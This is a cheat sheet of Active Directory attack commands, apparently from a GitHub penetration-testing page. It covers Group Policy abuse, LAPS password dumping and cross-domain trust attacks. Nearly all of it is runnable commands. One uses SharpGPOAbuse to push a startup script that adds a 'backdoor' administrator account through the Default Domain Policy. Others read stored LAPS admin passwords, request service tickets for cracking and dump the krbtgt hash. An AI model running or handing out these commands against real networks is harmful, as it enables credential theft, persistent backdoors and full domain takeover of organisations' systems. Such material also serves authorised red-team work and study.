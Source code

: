 ### **📋 Advanced GPO Attacks**

#### **GPO Enumeration & Abuse**
```bash
# Linux - impacket
GetGPPPassword.py -xmlfile Groups.xml
findDelegation.py domain.com/lowpriv:password -dc-ip DC_IP

# Windows - PowerView
Get-DomainGPO -ComputerIdentity TARGET_COMPUTER | select displayname,gpcpath
Get-DomainGPOLocalGroup | Where-Object {$_.GroupName -like "*admin*"}
Get-DomainGPOComputerLocalGroupMapping | Where-Object {$_.ComputerName -eq "TARGET"}

# SharpGPOAbuse
.\SharpGPOAbuse.exe --AddComputerScript --ScriptName startup.bat --ScriptContents "net user backdoor Password123! /add && net localgroup administrators backdoor /add" --GPOName "Default Domain Policy"
```

### **💊 LAPS Bypass & Abuse**

#### **Linux:**
```bash
# LAPSDumper
python3 laps.py -u lowpriv -p password -d domain.com -dc-ip DC_IP
python3 laps.py -u lowpriv -p password -d domain.com -dc-ip DC_IP -l

# CrackMapExec LAPS
crackmapexec ldap DC_IP -u lowpriv -p password --laps
```

#### **Windows:**
```powershell
# PowerView LAPS
Get-DomainComputer | Where-Object {$_."ms-mcs-admpwdexpirationtime" -ne $null} | select name,ms-mcs-admpwd,ms-mcs-admpwdexpirationtime

# LAPSToolkit
Get-LAPSComputers
Find-LAPSDelegatedGroups
Find-AdmPwdExtendedRights
```

### **🔄 Advanced Trust Attacks**

#### **Cross-Domain Attacks**
```bash
# Linux - Get foreign domain info
GetADUsers.py -all -dc-ip FOREIGN_DC_IP foreign.domain.com/user:password
GetUserSPNs.py -dc-ip FOREIGN_DC_IP foreign.domain.com/user:password -request

# Trust key extraction
secretsdump.py domain.com/Administrator@DC_IP -just-dc-user "krbtgt" -just-dc-ntlm
```
